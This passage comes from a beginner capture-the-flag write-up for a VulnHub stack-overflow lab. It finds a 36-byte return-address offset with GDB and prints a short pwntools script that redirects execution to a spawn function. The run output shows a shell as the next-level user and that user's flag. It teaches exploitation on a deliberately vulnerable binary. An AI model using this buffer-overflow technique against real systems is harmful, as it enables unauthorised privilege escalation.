 ```sh
[------------------------------------stack-------------------------------------]

[OMITTED]

[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41326241 in ?? ()
```
Ok, we sucessfully overwrite the return pointer, making the program jump to an unkonw address: just see the ```EIP``` register pointing to ```0x41326241 ('Ab2A')```.

Take this value and paste in the site where you compied the cyclic pattern: it should tell you that the paddind from start of our input to the return pointer is ```36 bytes```

Last thing we need to know where the spaw function lays: nothing more simple, just use ```pd spaw``` in gdb and copy the first address!
```c
   0x565561c9 <+0>:	push   ebp
``` 

Ok now we have all the informations to build our exploit!

We'll use the beautiful [PwnTools][3]: just lanch ```pip intall pwntools``` and wait the process to finish.
Now open up your preferred text editor and write something like this:

```python
#!/usr/bin/python2.7
from pwn import *

buf = ''
buf += "A" * 36
buf += p32(0x565561c9)

print buf
```

Make it executable with ```chmod +x [filename].py``` and run it with ```./levelTwo $(./exp.py)```, we are welcomed with a beautiful shell!

```sh
level1@kali:~$ ./levelTwo $(./exp.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�aUV
$ id
uid=1002(level2) gid=1001(level1) groups=1001(level1)
$ cat /home/level2/level2.txt
c1a0794b6b8e4ad053e0263cfce223a4
```

Great! Move on with the next challenge!

## Level 3

Broswing the home folder we find our next target: ```levelThree```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-1,290/
[2]: https://github.com/longld/peda
[3]: https://github.com/Gallopsled/pwntools
[4]: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
[5]: https://twitter.com/MrMoDDoM